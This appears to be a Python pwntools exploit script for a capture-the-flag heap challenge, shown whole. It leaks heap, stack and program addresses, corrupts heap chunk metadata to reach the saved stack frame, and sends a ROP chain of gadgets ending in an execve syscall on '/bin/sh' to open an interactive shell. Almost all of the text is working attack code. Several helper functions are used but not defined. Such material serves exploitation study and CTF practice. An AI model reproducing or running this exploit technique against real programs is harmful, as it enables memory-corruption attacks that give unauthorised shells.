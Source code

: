 ```py

def list_bytes2bytes(data: list) -> bytes:
	return b''.join(data)

def ljust_mul(s1, justnum: int, s2): return s1.ljust(justnum, b'*').replace(b'*' * len(s2), s2)

add()
data = list2list_bytes(show(0))

heap_addr = u64(data[1])
stack_addr = u64(data[4])
program_addr = u64(data[5])

program_base = program_addr - 0x635b0
bin_base = heap_addr - 0x2bb0
stdin_buf = bin_base + 0xb90
ebp_read_line = stack_addr - 0x158 + 0x30 - 0x10

print(f'program_base:            {hex(program_base)}')
print(f'bin_base:                {hex(bin_base)} ')
print(f'stack_addr:              {hex(stack_addr)} ')
print(f'stdin_buf:               {hex(stdin_buf)} ')
print(f'ebp_addr when read_line: {hex(ebp_read_line)}')

edit(0, list_bytes2bytes([p64(0), p64(0), p64(0), p64(0x401), p64(ebp_read_line), p64(0), p64(0), p64(0x401)]))

rdi_rbp = program_base + 0x000000000001dd45 # pop rdi ; pop rbp ; ret
rsi_rbp = program_base + 0x000000000001e032 # pop rsi ; pop rbp ; ret
rax = program_base + 0x0000000000016f3e # pop rax ; ret
clear_rdx_pop_3 = program_base + 0x000000000005b1c2 # mov rdx, r8 ; pop rbx ; pop r14 ; pop rbp ; ret
syscall = program_base + 0x0000000000026fcf # syscall

pay = p64(rdi_rbp) * 0x13 
pay += p64(rdi_rbp) + p64(stack_addr) * 2 
pay += p64(rsi_rbp) + p64(0) * 2 
pay += p64(clear_rdx_pop_3) + p64(0) * 3
pay += p64(rax) + p64(0x3b)
pay += p64(rdi_rbp) + p64(stack_addr + 0x48 + 8) * 2 
pay += p64(syscall)

p.sendlineafter(b'Choice >', b'4')
p.sendlineafter(b'Index >', ljust_mul(pay, 0x3f0, b'/bin/sh\x00'))

p.interactive()
```
